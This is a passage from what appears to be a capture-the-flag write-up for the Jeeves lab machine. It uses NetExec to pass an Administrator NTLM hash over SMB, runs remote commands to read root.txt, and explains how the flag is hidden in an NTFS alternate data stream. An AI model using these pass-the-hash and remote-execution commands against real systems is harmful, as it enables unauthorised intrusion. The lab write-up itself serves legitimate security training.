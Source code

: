 ```bash
nxc smb 10.10.10.63 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00
```

![image.png]({{ site.baseurl }}/assets/jeeves/image%2010.png)

We can now read root.txt:

```bash
nxc smb 10.10.10.63 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00 -x "type C:\Users\Administrator\Desktop\root.txt"
```

However the root.txt file is not there. We discover alternate data stream:

An Alternate Data Stream (ADS) is a feature of the NTFS (New Technology File System) used by Windows, which allows a single file or directory to contain multiple streams of data beyond its primary content.

Each stream is essentially a separate set of data associated with the same file, identified by a unique name.

![image.png]({{ site.baseurl }}/assets/jeeves/image%2011.png)

Let’s get the content from the root.txt data stream now:

```bash
nxc smb 10.10.10.63 -u Administrator -H e0fb1fb85756c24235ff238cbe81fe00 -X 'Get-Content -Path "C:\Users\Administrator\Desktop\hm.txt" -Stream "root.txt"'

```